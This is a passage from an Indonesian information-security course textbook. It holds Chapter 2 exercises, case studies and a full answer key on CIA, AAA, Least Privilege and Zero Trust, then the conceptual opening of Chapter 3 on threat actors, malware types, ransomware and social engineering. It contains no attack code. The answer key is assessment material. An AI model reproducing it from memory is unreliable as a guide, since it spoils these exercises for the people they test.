- Diagram sederhana (sketsa atau Mermaid) yang menggambarkan lapisan Defense-in-Depth yang seharusnya ada

**Format Laporan:**
Gunakan Template Analisis Insiden (Lampiran A.1). Panjang laporan: 3-4 halaman.

**Kriteria Keberhasilan:**
- Analisis CIA yang tepat dan berbasis bukti dari laporan insiden
- Kontrol perbaikan yang relevan dan spesifik (bukan generik)
- Penggunaan terminologi yang benar
- Laporan yang terstruktur dengan referensi yang jelas

⚠️ **Catatan Etika:**
Praktikum ini menggunakan laporan insiden publik. Fokus pada analisis defensif. Informasi tentang teknik serangan yang ditemukan dalam laporan TIDAK boleh digunakan atau dicoba di sistem apa pun.

---

## 8. Latihan Pemahaman

**Soal 1 (Pilihan Ganda)**

Sebuah organisasi menemukan bahwa seorang pegawai telah mengakses dan mengunduh 50.000 rekam medis pasien yang tidak terkait dengan tugasnya. Elemen CIA mana yang paling langsung dilanggar?

A. Availability  
B. Integrity  
C. Confidentiality  
D. Accountability  

---

**Soal 2 (Pilihan Ganda)**

Sebuah aplikasi web memverifikasi bahwa pengguna adalah `admin@company.com` menggunakan username dan password. Ini adalah contoh dari:

A. Authorization  
B. Accounting  
C. Authentication  
D. Access Control  

---

**Soal 3 (Pilihan Ganda)**

Seorang developer yang juga memiliki hak untuk mendeploy kode ke lingkungan produksi merupakan pelanggaran terhadap prinsip:

A. Least Privilege  
B. Separation of Duties  
C. Defense-in-Depth  
D. Zero Trust  

---

**Soal 4 (Esai Singkat)**

Jelaskan mengapa Zero Trust disebut sebagai paradigma, bukan produk. Berikan dua contoh konkret kontrol teknis yang dapat menjadi bagian dari implementasi Zero Trust. (150-200 kata)

---

**Soal 5 (Perancangan Kontrol)**

Sebuah rumah sakit ingin merancang kontrol keamanan untuk sistem rekam medis elektronik (RME) yang diakses oleh dokter, perawat, administrator, dan akuntan. Gunakan prinsip CIA, Least Privilege, Separation of Duties, dan Defense-in-Depth untuk merancang kontrol yang tepat untuk setiap kelompok pengguna. Sajikan dalam format tabel.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus 1: Pelanggaran Data di Perusahaan Asuransi

Sebuah perusahaan asuransi nasional mengalami kebocoran data 3 juta polis nasabah. Investigasi forensik mengungkapkan:

- Mantan karyawan yang telah di-PHK 2 bulan sebelumnya masih memiliki akun aktif dan menggunakannya untuk mengunduh data
- Akun tersebut memiliki akses ke semua data nasabah, padahal jabatan terakhirnya hanya sebagai staf administrasi regional (bukan nasional)
- Tidak ada log akses yang dipantau secara aktif
- Data yang bocor tidak dienkripsi

**Pertanyaan:**

1. **Identifikasi (C4)**: Identifikasi dan jelaskan pelanggaran terhadap setiap elemen CIA dan setiap komponen AAA dalam insiden ini. Berikan bukti spesifik dari deskripsi kasus untuk setiap pelanggaran.

2. **Evaluasi dan Rekomendasi (C5)**: Anda adalah konsultan keamanan yang diminta untuk mempresentasikan rencana perbaikan kepada Dewan Direksi. Susun rekomendasi yang mencakup: (a) kontrol untuk mencegah masalah serupa; (b) kontrol untuk mendeteksi lebih cepat jika terjadi lagi; (c) bagaimana prinsip Least Privilege dan Separation of Duties dapat diterapkan untuk mengurangi risiko ini.

### Studi Kasus 2: Evaluasi Arsitektur Keamanan Bank

Sebuah bank besar berencana beralih dari arsitektur keamanan berbasis perimeter tradisional ke Zero Trust. CISO meminta tim Anda untuk mengevaluasi arsitektur yang ada dan merancang roadmap transisi.

**Kondisi Saat Ini:**
- Semua karyawan menggunakan VPN untuk akses remote — sekali terhubung, mereka dapat mengakses hampir semua sistem internal
- Tidak ada verifikasi perangkat — BYOD (*Bring Your Own Device*) diizinkan tanpa kontrol
- MFA hanya diterapkan untuk akses ke sistem core banking, bukan sistem lain
- Log ada tetapi tidak dipantau secara real-time

**Pertanyaan:**

1. **Analisis (C4)**: Identifikasi minimal lima kelemahan keamanan dalam arsitektur saat ini. Untuk setiap kelemahan, jelaskan risiko yang ditimbulkan dan prinsip Zero Trust mana yang dilanggar.

2. **Perancangan Roadmap (C5)**: Rancang roadmap transisi Zero Trust 3 tahun untuk bank ini. Untuk setiap fase, jelaskan: apa yang diimplementasikan, mengapa diprioritaskan, risiko yang dimitigasi, dan metrik keberhasilan.

---

## 10. Kunci Jawaban dan Pembahasan

### Soal 1 — Kunci Jawaban: **C. Confidentiality**

**Jawaban Akhir:** C

**Penjelasan Teoritis:**
Pegawai mengakses rekam medis pasien yang *tidak terkait dengan tugasnya* — artinya ini adalah akses tidak sah terhadap informasi yang seharusnya bersifat rahasia (*confidential*). Confidentiality secara langsung dilanggar ketika informasi diakses oleh pihak yang tidak berwenang, meskipun pihak tersebut adalah karyawan internal yang memiliki akses teknis ke sistem.

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A) Availability**: Data masih tersedia dan dapat diakses — tidak ada gangguan ketersediaan.
- **(B) Integrity**: Data tidak dimodifikasi — hanya diakses dan diunduh.
- **(D) Accountability**: Accountability bukan salah satu elemen CIA. Meskipun ada masalah akuntabilitas dalam kasus ini, itu adalah konsep terpisah dari CIA Triad.

**Kaitan dengan Prinsip Lain:**
Kasus ini juga melanggar **Least Privilege** (akses berlebihan melebihi kebutuhan tugas) dan **Authorization** (otorisasi tidak sesuai dengan peran), yang memungkinkan pelanggaran confidentiality terjadi.

---

### Soal 2 — Kunci Jawaban: **C. Authentication**

**Jawaban Akhir:** C

**Penjelasan Teoritis:**
Proses memverifikasi bahwa pengguna adalah `admin@company.com` — yaitu, mengkonfirmasi *identitas* pengguna — adalah Authentication. Authentication menjawab pertanyaan "Siapa Anda?" dengan memverifikasi klaim identitas melalui credential (dalam hal ini, kombinasi username dan password).

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A) Authorization**: Terjadi *setelah* authentication — menentukan apa yang boleh dilakukan oleh pengguna yang telah terautentikasi.
- **(B) Accounting**: Pencatatan aktivitas pengguna setelah authentication dan authorization.
- **(D) Access Control**: Istilah umum yang mencakup authentication, authorization, dan mekanisme kontrol lainnya. Lebih luas dari Authentication saja.

---

### Soal 3 — Kunci Jawaban: **B. Separation of Duties**

**Jawaban Akhir:** B

**Penjelasan Teoritis:**
Separation of Duties (SoD) mengharuskan pemisahan antara tugas yang, jika digabungkan, dapat memungkinkan penipuan atau sabotase. Developer yang *juga* mendeploy ke produksi dapat menyisipkan kode berbahaya dan langsung mengaktifkannya tanpa review dari pihak lain. Ini adalah kasus klasik pelanggaran SoD dalam konteks IT.

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A) Least Privilege**: Berbeda — Least Privilege berkaitan dengan membatasi hak akses minimum. SoD berkaitan dengan pemisahan tugas di antara beberapa individu.
- **(C) Defense-in-Depth**: Mekanisme berlapis pertahanan, bukan tentang pemisahan tugas individu.
- **(D) Zero Trust**: Paradigma yang memverifikasi setiap akses — tidak langsung terkait dengan pemisahan tugas dalam proses SDLC.

---

### Soal 4 — Panduan Jawaban

**Mengapa Zero Trust adalah Paradigma, Bukan Produk:**
Zero Trust adalah filosofi dan pendekatan arsitektur yang mengubah cara kita berpikir tentang kepercayaan dan keamanan dalam jaringan. Tidak ada satu produk pun yang dapat "mengimplementasikan Zero Trust" secara penuh — ini membutuhkan kombinasi kebijakan, proses, budaya, dan teknologi yang bekerja bersama. Vendor yang mengklaim produknya adalah "solusi Zero Trust lengkap" kemungkinan besar menggunakan istilah tersebut sebagai marketing.

**Dua Contoh Kontrol Teknis dalam Zero Trust:**
1. **Conditional Access Policies**: Kebijakan yang menentukan kondisi-kondisi yang harus dipenuhi sebelum akses diberikan (misalnya: perangkat harus compliant MDM, pengguna harus melewati MFA, lokasi harus dari wilayah yang diizinkan). Ini mengimplementasikan prinsip "Verify Explicitly" dari Zero Trust.
2. **Network Micro-segmentation**: Membagi jaringan internal menjadi segmen-segmen kecil yang terisolasi, sehingga kompromi di satu segmen tidak otomatis memberikan akses ke seluruh jaringan. Ini mengimplementasikan prinsip "Minimize Blast Radius" dari Zero Trust.

---

### Soal 5 — Panduan Jawaban

| Kelompok Pengguna | Akses Minimum (Least Privilege) | Separation of Duties | Defense-in-Depth Layer |
|---|---|---|---|
| **Dokter** | Hanya rekam medis pasien yang sedang ditangani; bukan rekam medis lain | Dokter tidak boleh memodifikasi tagihan atau data administratif | Autentikasi MFA + sesi timeout 15 menit + logging semua akses rekam medis |
| **Perawat** | Rekam medis pasien di bangsal mereka; bukan data diagnosis | Perawat tidak berwenang mengubah resep dokter | Autentikasi kartu + PIN + alert jika akses di luar shift |
| **Administrator** | Data administratif dan jadwal; bukan data medis | Administrator tidak berwenang mengakses konten medis | Login terpisah dari sistem medis + log audit penuh |
| **Akuntan** | Data tagihan dan pembayaran yang ter-anonymize; bukan PII medis lengkap | Akuntan tidak berwenang mengakses rekam medis | Jaringan terpisah + enkripsi data + export dilarang ke media eksternal |

---

### Studi Kasus 1 — Panduan Jawaban

**Pertanyaan 1 — Pelanggaran CIA dan AAA:**

| Prinsip | Pelanggaran | Bukti dari Kasus |
|---|---|---|
| **Confidentiality** | Data nasabah diakses oleh pihak tidak berwenang (mantan karyawan) | "Mantan karyawan menggunakan akun aktif untuk mengunduh data" |
| **Integrity** | (Tidak langsung — data mungkin tidak dimodifikasi) | — |
| **Availability** | (Tidak terdampak) | — |
| **Authentication** | Sistem tidak menonaktifkan akun mantan karyawan | "Akun masih aktif 2 bulan setelah di-PHK" |
| **Authorization** | Akses berlebihan (staf regional dengan akses data nasional) | "Jabatan staf administrasi regional tetapi akses ke semua data nasabah" |
| **Accounting** | Log tidak dipantau aktif sehingga aktivitas mencurigakan tidak terdeteksi | "Tidak ada log akses yang dipantau secara aktif" |

**Pertanyaan 2 — Rekomendasi:**

**(a) Kontrol Preventif:**
- **Automated Offboarding Process**: Sistem HR terintegrasi dengan IAM — akun otomatis dinonaktifkan pada hari terakhir kerja
- **Least Privilege Implementation**: Access review berkala; staf regional hanya dapat mengakses data regional
- **Data Encryption at Rest**: Enkripsi data polis menggunakan AES-256

**(b) Kontrol Detektif:**
- **Real-time SIEM Monitoring**: Alert untuk download massal oleh akun tunggal (threshold: >100 rekam dalam 1 jam)
- **User Behavior Analytics (UBA)**: Deteksi anomali pola akses dibandingkan baseline normal pengguna

**(c) Least Privilege dan SoD:**
- Least Privilege: Akses berbasis wilayah dan peran yang ketat, dengan review kuartalan
- SoD: Pemisahan antara yang berwenang menetapkan kebijakan akses dan yang memonitor pelaksanaannya

---

## 11. Ringkasan Bab

Bab 2 membangun kerangka konseptual yang menjadi fondasi seluruh disiplin keamanan informasi. CIA Triad — Confidentiality, Integrity, Availability — bukan sekadar mnemonik, tetapi kerangka evaluasi yang digunakan untuk mengklasifikasikan dampak setiap insiden keamanan. Ketiga elemen ini seringkali berada dalam ketegangan satu sama lain, dan praktisi keamanan harus memahami trade-off yang terlibat dalam setiap keputusan desain.

Framework AAA (Authentication, Authorization, Accounting) mendefinisikan tiga lapisan manajemen identitas dan akses yang harus berfungsi secara berurutan dan terintegrasi. Kegagalan di layer mana pun — autentikasi lemah, otorisasi berlebihan, atau logging yang tidak memadai — dapat membuka jalan bagi kompromi keamanan.

Least Privilege dan Separation of Duties adalah prinsip-prinsip yang membatasi kerusakan yang dapat dilakukan oleh satu akun atau individu yang dikompromikan. Keduanya merupakan kontrol yang sangat efektif tetapi sering diabaikan karena implikasi operasional dan biayanya.

Defense-in-Depth mengakui realitas bahwa tidak ada satu kontrol pun yang sempurna — setiap lapisan pertahanan dapat gagal. Dengan menerapkan beberapa lapisan kontrol yang independen dan terdiversifikasi, organisasi memastikan bahwa kegagalan satu lapisan tidak berarti kompromi total.

Zero Trust merepresentasikan evolusi paradigmatik dalam keamanan siber yang merespons kenyataan modern: perimeter jaringan tradisional tidak lagi relevan dalam era cloud, BYOD, dan remote work. Zero Trust menggantikan kepercayaan berbasis lokasi jaringan dengan kepercayaan yang harus terus diverifikasi secara eksplisit.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:**
Sebuah organisasi menerapkan MFA yang sangat ketat hingga karyawan lapangan kesulitan bekerja secara efisien. Beberapa karyawan mulai berbagi OTP satu sama lain untuk menghindari proses autentikasi yang berulang. Sebagai CISO, bagaimana Anda menangani situasi ini? Apa yang salah secara teknis, dan apa yang salah secara manajemen perubahan (*change management*)?

**Pertanyaan Refleksi 2:**
Prinsip Separation of Duties dalam konteks keamanan IT kadang bertentangan dengan kebutuhan efisiensi organisasi — terutama di perusahaan kecil atau startup dengan staf terbatas. Bagaimana Anda memutuskan kapan SoD penuh harus diterapkan dan kapan *compensating controls* cukup? Apa risiko etis jika SoD diabaikan demi efisiensi?

**Pertanyaan Refleksi 3:**
Perusahaan tempat Anda bekerja memutuskan untuk mengimplementasikan Zero Trust secara penuh, yang akan mewajibkan monitoring berkelanjutan terhadap semua aktivitas karyawan di dalam jaringan. Karyawan merasa privasinya tidak dihormati. Bagaimana Anda mengkomunikasikan kebijakan ini kepada karyawan? Apa batasan etis dari monitoring karyawan dalam konteks keamanan perusahaan?

---


---

# BAB 3 — THREAT LANDSCAPE: AKTOR ANCAMAN, JENIS SERANGAN, DAN ANALISIS TTP

**Pertemuan:** 3  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.2  
**Evaluasi:** Eval-2 (Threat report, analisis CVE, pemetaan ATT&CK/Kill Chain, 10%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 3, mahasiswa mampu:

- Mengklasifikasikan aktor ancaman siber berdasarkan motivasi, kapabilitas, dan target.
- Menganalisis dan mengkritisi laporan ancaman (*threat report*) dari vendor intelijen ancaman terkemuka.
- Mengidentifikasi Taktik, Teknik, dan Prosedur (TTP) yang digunakan oleh berbagai kelompok ancaman.
- Membedakan jenis serangan berdasarkan vektor, target, dan dampaknya.
- Menerapkan threat intelligence dalam konteks perencanaan pertahanan organisasi.

*Kaitan OBE: Sub-CPMK.2 → CPMK.2 → IK-5.a → CPL5 → Eval-2*

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    TL["Threat Landscape"] --> A["Klasifikasi Aktor Ancaman"]
    TL --> B["Jenis Serangan"]
    TL --> C["Analisis TTP"]
    TL --> D["Threat Intelligence"]
    
    A --> A1["Nation-State / APT\nMotivasi: Espionage, Sabotase"]
    A --> A2["Cybercriminal\nMotivasi: Finansial"]
    A --> A3["Hacktivist\nMotivasi: Ideologi"]
    A --> A4["Insider Threat\nMotivasi: Variatif"]
    A --> A5["Script Kiddies\nMotivasi: Reputasi"]
    
    B --> B1["Malware\nVirus, Worm, Trojan, RAT"]
    B --> B2["Ransomware\nEncrypt & Extort"]
    B --> B3["Phishing\nSocial Engineering"]
    B --> B4["DDoS\nOverwhelm Resources"]
    B --> B5["Supply Chain\nTarget Vendor"]
    B --> B6["Zero-Day\nUnknown Vulnerability"]
    
    C --> C1["Tactics: High-level Goals"]
    C --> C2["Techniques: How Achieved"]
    C --> C3["Procedures: Specific Actions"]
    
    D --> D1["Strategic Intel\nPeta Ancaman Jangka Panjang"]
    D --> D2["Tactical Intel\nTTP Spesifik"]
    D --> D3["Operational Intel\nKampanye Aktif"]
    D --> D4["Technical Intel\nIoC: IP, Hash, Domain"]
```

---

## 3. Pengantar Kontekstual

Memahami ancaman tanpa memahami siapa yang mengancam dan mengapa mereka mengancam adalah seperti memasang alarm kebakaran tanpa memahami penyebab kebakaran. Dalam keamanan siber, pemahaman tentang *threat landscape* — peta komprehensif tentang aktor, motivasi, kapabilitas, dan teknik serangan — adalah fondasi dari strategi pertahanan yang efektif.

Verizon DBIR (Data Breach Investigations Report) 2024 menganalisis 30.458 insiden keamanan dan mengkonfirmasi 10.626 pelanggaran data yang dikonfirmasi dari 94 negara. Beberapa temuan kunci yang relevan:
- 68% pelanggaran data melibatkan manusia (*human element*) — melalui kesalahan, rekayasa sosial, atau penyalahgunaan akses
- 32% pelanggaran melibatkan teknik ransomware atau pemerasan (*extortion*)
- Waktu rata-rata eksploitasi kerentanan adalah **5 hari** setelah publikasi CVE — jauh lebih cepat dari kemampuan patching rata-rata organisasi

Ini bukan statistik abstrak — ini adalah data yang harus menginformasikan bagaimana kita memprioritaskan investasi keamanan. Jika 68% pelanggaran melibatkan manusia, maka kontrol teknis saja tidak cukup — kita perlu investasi yang proporsional dalam pelatihan, kesadaran, dan kontrol berbasis perilaku.

---

## 4. Landasan Teori

### 4.1 Klasifikasi Aktor Ancaman

Klasifikasi aktor ancaman penting untuk menentukan jenis ancaman yang paling relevan bagi sebuah organisasi dan kontrol yang paling efektif untuk menghadapinya. Tidak semua organisasi menghadapi ancaman yang sama — bank menghadapi ancaman berbeda dari rumah sakit, dan organisasi pemerintah menghadapi ancaman berbeda dari perusahaan retail.

#### 4.1.1 Nation-State Actors / Advanced Persistent Threat (APT)

**Definisi:** Kelompok yang disponsori atau dioperasikan oleh pemerintah suatu negara, bertujuan untuk espionase, sabotase infrastruktur kritis, atau operasi pengaruh (*influence operations*) terhadap negara atau organisasi target.

**Karakteristik:**
- **Kapabilitas sangat tinggi**: Memiliki akses ke zero-day exploits, tim riset kerentanan, dan infrastruktur yang kompleks
- **Persistensi**: Beroperasi dalam jangka panjang, seringkali berbulan-bulan hingga bertahun-tahun dalam jaringan target
- **Target spesifik**: Menargetkan organisasi tertentu yang memiliki nilai intelijen atau strategis
- **Sumber daya tidak terbatas** (relatif): Didanai negara, memiliki budget yang jauh melebihi kelompok kriminal biasa
- **Stealth**: Memprioritaskan tidak terdeteksi di atas kecepatan atau dampak segera

**Kelompok APT yang Terdokumentasi:**
| Nama | Atribusi | Motivasi Utama | Target Umum |
|---|---|---|---|
| APT28 (Fancy Bear) | Rusia (GRU) | Espionase politik, destabilisasi | Lembaga pemerintah, partai politik, militer NATO |
| APT29 (Cozy Bear) | Rusia (SVR) | Espionase intelijen | Pemerintah, think tank, sektor kesehatan |
| APT41 (Double Dragon) | China (PLA) | Espionase ekonomi + cybercrime | Manufaktur, teknologi, healthcare, gaming |
| Lazarus Group | Korea Utara (RGB) | Pendanaan negara, sabotase | Bank, kripto, media, pertahanan |
| APT34 (OilRig) | Iran (MOIS) | Espionase regional | Energi, telekomunikasi, pemerintah MENA |

📌 **Poin Kunci:** Bagi sebagian besar organisasi swasta yang bukan target strategic, ancaman APT *langsung* tidak relevan. Namun, infrastruktur yang digunakan APT (seperti server C2 yang dikompromikan) dapat memengaruhi organisasi secara tidak langsung melalui supply chain atau *watering hole attacks*.

#### 4.1.2 Cybercriminals (Pelaku Kejahatan Siber)

**Definisi:** Individu atau kelompok terorganisir yang bermotivasi finansial, mengoperasikan berbagai model kejahatan siber dari pencurian identitas hingga ransomware enterprise.

**Karakteristik:**
- **Motivasi: Finansial** — keuntungan langsung (pencurian uang, kripto) atau tidak langsung (jual data)
- **Kapabilitas bervariasi**: Dari pemula yang menggunakan *crimeware-as-a-service* hingga kelompok sangat canggih seperti FIN7
- **Target oportunistik**: Sering menargetkan berdasarkan kerentanan yang tersedia, bukan nilai spesifik target
- **Ekosistem terorganisir**: Ransomware-as-a-Service (RaaS), Initial Access Brokers, Data Brokers

**Ekosistem Cybercriminal Modern:**

```
[Initial Access Broker] → Jual akses ke jaringan yang dikompromikan
        ↓
[RaaS Operator] → Sediakan ransomware dan infrastruktur C2
        ↓
[Ransomware Affiliate] → Deploy ransomware ke target
        ↓
[Money Mule] → Cuci hasil kejahatan melalui kripto
```

Model RaaS (Ransomware-as-a-Service) mirip dengan model SaaS bisnis — operator menyediakan platform, affiliate menjalankan serangan, dan keuntungan dibagi. Ini telah menurunkan hambatan masuk ke kejahatan siber dan meningkatkan skala operasi secara dramatis.

**Kelompok Cybercriminal Terkenal:**
- **FIN7/Carbanak**: Spesialis pencurian data keuangan, estimasi kerugian >USD 1 miliar
- **Conti/Black Basta**: Operator ransomware dengan korban ribuan organisasi
- **REvil/Sodinokibi**: RaaS yang bertanggung jawab atas serangan Kaseya dan JBS Foods
- **LAPSUS$**: Kelompok muda yang menggunakan rekayasa sosial untuk infiltrasi perusahaan teknologi besar

#### 4.1.3 Hacktivists (Hacktivis)

**Definisi:** Individu atau kelompok yang menggunakan teknik hacking untuk tujuan politik, sosial, atau ideologis.

**Karakteristik:**
- **Motivasi: Ideologi atau Aktivisme** — bukan finansial
- **Kapabilitas bervariasi, seringkali rendah-menengah**: Banyak hacktivist menggunakan tool yang tersedia publik (DDoS tools, SQL injection scanners)
- **Target simbolik**: Memilih target yang memiliki nilai simbolis atau visibilitas tinggi
- **Taktik umum**: Website defacement, DDoS, kebocoran data (doxxing), exfiltration data untuk mempermalukan target

**Contoh:**
- **Anonymous**: Kelompok yang longgar, bertanggung jawab atas serangan terhadap ISIS, HBGary Federal, berbagai pemerintah
- **KillNet**: Kelompok pro-Rusia yang aktif melakukan DDoS terhadap infrastruktur NATO selama konflik Ukraina

**Implikasi untuk Pertahanan:**
Hacktivist biasanya menggunakan teknik yang tidak terlalu canggih. Kontrol dasar seperti patch management, WAF, dan DDoS protection seringkali cukup untuk menghadapi ancaman hacktivist. Namun, karena motivasi mereka bersifat ideologis, serangan dapat terjadi tanpa peringatan dan dalam skala besar (kampanye DDoS terkoordinasi).

#### 4.1.4 Insider Threats (Ancaman Orang Dalam)

**Definisi:** Individu yang memiliki akses sah ke sistem atau jaringan organisasi dan menggunakan akses tersebut untuk tujuan yang merugikan — disengaja atau tidak disengaja.

**Kategori Insider Threat:**

| Kategori | Deskripsi | Contoh |
|---|---|---|
| **Malicious Insider** | Karyawan/kontraktor yang secara sengaja menyabotase atau mencuri data | Mantan karyawan yang mencuri IP sebelum resign |
| **Negligent Insider** | Karyawan yang tidak berniat jahat tetapi tindakannya menyebabkan insiden | Karyawan yang mengklik tautan phishing |
| **Compromised Insider** | Akun karyawan yang dikompromikan oleh pihak eksternal | Akun digunakan oleh penyerang setelah credential phishing |

**Mengapa Insider Threat Sangat Berbahaya:**
- Memiliki akses sah yang melewati banyak kontrol perimeter
- Mengetahui lokasi data berharga dan cara mengaksesnya
- Aktivitasnya lebih sulit dibedakan dari aktivitas normal
- Deteksi membutuhkan User Behavior Analytics (UBA), bukan hanya signature-based detection

**Indikator Perilaku:**
- Akses ke data yang tidak relevan dengan tugas
- Download data dalam volume besar di luar jam kerja
- Penggunaan perangkat penyimpanan eksternal yang tidak biasa
- Aktivitas sistem setelah jam kerja normal
- Konflik interpersonal atau tanda-tanda ketidakpuasan

#### 4.1.5 Script Kiddies dan Hobbyists

**Definisi:** Individu yang menggunakan tool dan exploit yang dikembangkan orang lain, seringkali tanpa memahami cara kerjanya secara mendalam.

**Karakteristik:**
- **Kapabilitas rendah**: Bergantung pada tool yang siap pakai
- **Target oportunistik**: Mencari sistem yang mudah dikompromikan, bukan target spesifik
- **Motivasi**: Reputasi dalam komunitas, kesenangan, atau eksperimentasi
- **Ancaman nyata**: Meskipun kapabilitas rendah, volume tinggi dari serangan otomatis dapat membebani sistem

**Relevansi untuk Pertahanan:**
Meskipun script kiddies tidak canggih, mereka dapat menyebabkan kerusakan nyata melalui volume tinggi serangan brute force, eksploitasi kerentanan yang sudah diketahui, atau DDoS menggunakan botnet yang disewa. Kontrol dasar yang baik (patch management, rate limiting, fail2ban) sangat efektif melawan ancaman ini.

### 4.2 Jenis Serangan Siber

#### 4.2.1 Malware

**Definisi:** Perangkat lunak yang dirancang untuk menyebabkan kerusakan, pencurian data, atau akses tidak sah ke sistem komputer.

**Klasifikasi Malware:**

| Jenis | Mekanisme Penyebaran | Karakteristik Kunci | Contoh Terkenal |
|---|---|---|---|
| **Virus** | Infeksi file yang ada | Membutuhkan eksekusi file host untuk mengaktifkan diri | CIH (Chernobyl), ILOVEYOU |
| **Worm** | Propagasi mandiri melalui jaringan | Tidak membutuhkan file host; menyebar otomatis | WannaCry, Morris Worm, Slammer |
| **Trojan** | Menyamar sebagai program legitimate | Membuka backdoor atau mengunduh payload lain | Zeus, Emotet, TrickBot |
| **Ransomware** | Berbagai vektor (phishing, exploit) | Mengenkripsi file dan meminta tebusan | WannaCry, REvil, LockBit |
| **Spyware** | Drive-by download, bundled software | Mengumpulkan informasi secara diam-diam | Pegasus, FinFisher |
| **Rootkit** | Diinstal setelah kompromi awal | Menyembunyikan keberadaannya di level OS/firmware | Azazel, Necurs |
| **Keylogger** | Bundled dengan trojan | Merekam semua keystroke pengguna | Olympic Vision, LokiBot |
| **RAT (Remote Access Trojan)** | Phishing, exploit | Memberikan kontrol penuh kepada penyerang | DarkComet, NJRat, Poison Ivy |
| **Botnet Malware** | Exploit, spam | Menjadikan sistem bagian dari jaringan bot | Mirai, Emotet, Necurs |

#### 4.2.2 Ransomware: Ancaman Dominan Era Modern

Ransomware telah berkembang dari gangguan sederhana menjadi industri kejahatan terorganisir bernilai miliaran dolar. Memahami evolusi dan model bisnis ransomware modern sangat penting untuk merancang pertahanan yang efektif.

**Generasi Ransomware:**
1. **Gen 1 (2012-2016)**: Enkripsi sederhana, pembayaran tunai atau voucher, kerusakan terbatas
2. **Gen 2 (2016-2019)**: Enkripsi AES/RSA yang kuat, Bitcoin payment, RaaS model mulai muncul
3. **Gen 3 (2019-sekarang)**: Double extortion (enkripsi + ancaman bocorkan data), RaaS fully evolved, targeted attacks terhadap enterprise

**Model Double Extortion:**
```
[Enkripsi File] + [Exfiltrate Data] → [Dua Ancaman Tebusan]
```
Jika korban tidak membayar tebusan untuk decryptor, penyerang mengancam akan mempublikasikan data yang dicuri. Ini membuat backup saja tidak cukup sebagai strategi pertahanan.

**Triple Extortion (Tren Terbaru):**
Menambahkan ancaman DDoS terhadap layanan korban atau menghubungi pelanggan/mitra bisnis korban secara langsung untuk menekan pembayaran.

#### 4.2.3 Social Engineering dan Phishing

**Social Engineering** adalah manipulasi psikologis manusia untuk melakukan tindakan atau mengungkapkan informasi rahasia. Ini adalah vektor serangan yang paling efektif karena mengeksploitasi kelemahan yang paling sulit dipatch: psikologi manusia.

**Teknik Social Engineering:**

| Teknik | Deskripsi | Contoh |
|---|---|---|
| **Phishing** | Email massal yang tampak sah, memancing klik atau input kredensial | Email "verifikasi akun" palsu yang meniru Bank Central |
| **Spear Phishing** | Phishing tertarget pada individu spesifik dengan personalisasi | Email yang tampak dari atasan meminta transfer dana segera |
| **Whaling** | Spear phishing yang menargetkan eksekutif senior (C-suite) | Email palsu dari "CEO" kepada CFO untuk transfer dana |
| **Vishing** | Social engineering melalui telepon (*voice phishing*) | Penipu berpura-pura sebagai dukungan teknis Microsoft |
| **Smishing** | Social engineering melalui SMS | SMS "paket Anda tertahan, klik di sini untuk melacak" |
| **Pretexting** | Menciptakan skenario palsu untuk mendapatkan informasi | "Dari tim IT, kami perlu password Anda untuk upgrade" |
| **Baiting** | Memancing korban dengan iming-iming (fisik atau digital) | USB drive berlabel "Gaji Karyawan Q1" ditinggalkan di area publik |
| **Quid Pro Quo** | Menawarkan sesuatu sebagai imbalan informasi | "Kami akan membantu masalah IT Anda jika Anda berikan akses" |

**Mengapa Social Engineering Efektif:**
Serangan ini mengeksploitasi bias kognitif manusia yang ada secara universal:
- **Authority bias**: Kepatuhan kepada figur otoritas
- **Urgency/Scarcity**: Kemendesakan yang mencegah berpikir kritis
- **Social proof**: "Semua orang melakukannya"
- **Reciprocity**: Dorongan untuk membalas bantuan
- **Fear**: Ketakutan akan konsekuensi negatif

### 4.3 Threat Intelligence: Mengubah Data Ancaman Menjadi Wawasan yang Dapat Ditindaklanjuti

> **Definisi:** Threat Intelligence adalah pengetahuan berbasis bukti tentang ancaman atau ancaman potensial terhadap aset organisasi, termasuk konteks, mekanisme, indikator, implikasi, dan rekomendasi yang dapat digunakan sebagai dasar keputusan.

**Piramida Intelijen Ancaman:**

| Level | Jenis | Konsumen | Contoh |
|---|---|---|---|
| **Strategic** | Gambaran besar ancaman, tren geopolitik | Eksekutif, CISO, Dewan Direksi | "APT dari negara X semakin menargetkan sektor energi ASEAN" |
| **Operational** | Informasi tentang kampanye ancaman aktif | Tim keamanan, manajemen | "Kampanye phishing aktif menargetkan bank di Indonesia minggu ini" |
| **Tactical** | TTP spesifik yang digunakan penyerang | Analis keamanan, SOC | Teknik yang digunakan oleh kelompok tertentu: spear phishing via LinkedIn |
| **Technical** | Indikator teknis spesifik (IoC) | SIEM, firewall, EDR | Hash malware, IP C2, domain berbahaya, signature YARA |

**Sumber Threat Intelligence:**

| Kategori | Sumber | Contoh |
|---|---|---|
| **Open Source (OSINT)** | Laporan publik, forum, akademis | MITRE ATT&CK, AlienVault OTX, VirusTotal, abuse.ch |
| **Commercial** | Vendor keamanan komersial | Mandiant, CrowdStrike, Recorded Future, Palo Alto Unit 42 |
| **Government** | Lembaga keamanan pemerintah | CISA (AS), BSSN (Indonesia), ENISA (EU), ASD (Australia) |
| **Sector-specific** | ISAC (Information Sharing and Analysis Center) | FS-ISAC (keuangan), H-ISAC (kesehatan), E-ISAC (energi) |
| **Internal** | Data insiden internal, log, honeypot | Log SIEM, output EDR, laporan SOC |

**Siklus Threat Intelligence:**

